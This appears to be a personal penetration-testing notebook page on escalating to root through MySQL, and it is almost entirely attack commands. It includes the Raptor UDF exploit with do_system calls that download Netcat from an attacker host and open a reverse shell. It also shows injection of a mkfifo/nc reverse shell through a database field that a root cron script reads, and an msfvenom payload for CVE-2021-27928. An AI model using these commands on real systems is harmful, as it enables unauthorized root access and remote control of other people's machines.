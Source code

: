 #### Enumeration

```bash - kali
ps aux | grep mysql
```

Is mysql running as root?
```bash - kali
ps aux | grep root | grep mysql
```

If so, folllow [[MySQL#Raptor User Defined Function]]

![[Grep#Grep'n for passwords]]

![[find#Hunting for config files]]

#### Raptor User Defined Function

![[14._MySQL Raptor Service Exploits]]


---

DELETE OR KEEP THE FOLLOWING?

```sql - target
insert into foo values(load_file('/var/www/raptor_udf2.so'));
```


If everything went according to plan, the `do_system` function based on our malicious UDF will grant us root-level command execution. To check this, we can run the `id` command and redirect the output to a file we can read:

```sql - target
select do_system('id > /var/www/out; chown www-data.www-data /var/www/out');
```

```sql - target
\! sh
```

```sql - target
cat /var/www/out
```

`uid=0(root) gid=114(mysql) groups=114(mysql)`

```sql - target
exit
```

The command did indeed execute with the highest privileges. To obtain a reverse shell, we can download our copy of the Netcat binary to the target and then run it as root. We'll continue utilizing our running python web server on port 8295.

On Kali:

```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[Python#Server]]

```sql - target
select do_system('wget http://$KALI:80/nc -O /var/www/nc');
```


```sql - target
select do_system('chmod 777 /var/www/nc');
```

![[1._rlwrap]]

```sql - target
select do_system('/var/www/nc $KALI 443 -e /bin/bash');
```

---

#### Reverse shell DB injection

`CMD: UID=0 PID=168931 | /bin/sh -c /bin/sh -c /opt/check_mailpass_expiration.sh`

```
cat /opt/check_mailpass_expiration.sh
```

```
#1/bin/bash
#Adapt to your setup 

POSTFIX_DB="post fixadmin" 
MYSQL_CREDENTIALS_FILE="/root/postfixadmin.my.cnf" 

REPLY_ADDRESS=noreplyaspaghetti.lan 

# Change this list to change notification times and when ... 
for INTERVAL in 30 14 7 
do 
	LOWER=$(( SINTERVAL - 1)) 
	QUERY="SELECT username,password_expiry FROM mailbox WHERE password_expiry > now() + interval $LOWER DAY AND password_expiry < NOW() + interval $INTERVAL DAY’ 
	mysql --defaults-extra-file="$MySQL_CREDENTIALS_FILE" "$POSTFIX_DB" -B -e "$QUERY" | while read -a RESULT ; do 
		echo -e "Dear User, \n Your password will expire on ${RESULT[1]}" | mail -s "Password 30 days before expiration notication® -r $REPLY_ADDRESS ${RESULT[0]} 
	done 
done
```

First, create the reverse shell file.
```bash - target
cat > script.sh <<EOF
```

```bash - target
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 80 >/tmp/f
```

```bash - target
EOF
```

Make it executable.
```bash - target
chmod +x script.sh
```

Log in to mysql.
```bash - target
mysql -u <USERNAME> -p<PASSWORD>
```

```sql - target
show databases;
```

```sql - target
use <DATABASE>;
```

```sql - target
show tables;
```

```sql - target
describe <TABLE>;
```

`username`
`....`
`password_expiry`
`...`

```sql - target
select username, password_expiry from <TABLE>;
```

```sql - target
update <TABLE> set username=' |/tmp/Tools/script.sh';
```

```sql - target
update <TABLE> set password_expiry = (select now() + interval 7 day);
```

```sql - target
select username, password_expiry from <TABLE>;
```


`| /tmp, ipt.sh | 2022-03-31 15:41:17 |`


#### CVE-2021-27928

MySQL version 10.3.25

https://github.com/Al1ex/CVE-2021-27928

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf-so -o reverse.so
```

Copy the file to the target machine. Now stand up a listener on port 443 and issue the following command in the MySQL console to trigger the shell.

[[Python#Server]]

[[1._rlwrap]]

```mysql - target
SET GLOBAL wsrep_provider="/tmp/reverse.so";
```

